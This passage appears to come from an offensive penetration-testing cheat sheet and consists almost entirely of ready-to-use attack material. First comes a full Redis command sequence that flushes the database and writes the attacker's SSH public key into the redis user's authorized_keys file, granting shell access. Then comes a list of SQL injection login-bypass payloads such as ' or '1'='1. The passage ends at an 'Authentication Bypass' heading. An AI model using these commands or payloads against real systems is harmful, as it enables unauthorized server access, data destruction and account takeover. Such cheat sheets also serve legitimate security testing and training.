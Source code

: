 ##### Enter own SSH Key

```c
redis-cli -h <RHOST>
echo "FLUSHALL" | redis-cli -h <RHOST>
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /PATH/TO/FILE/<FILE>.txt
cat /PATH/TO/FILE/<FILE>.txt | redis-cli -h <RHOST> -x set s-key
<RHOST>:6379> get s-key
<RHOST>:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
<RHOST>:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
<RHOST>:6379> CONFIG SET dbfilename authorized_keys
OK
<RHOST>:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
<RHOST>:6379> save
OK
```

#### SQL Injection

##### Master List

```c
';#---              // insert everywhere! Shoutout to xsudoxx!
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

##### Authentication Bypass
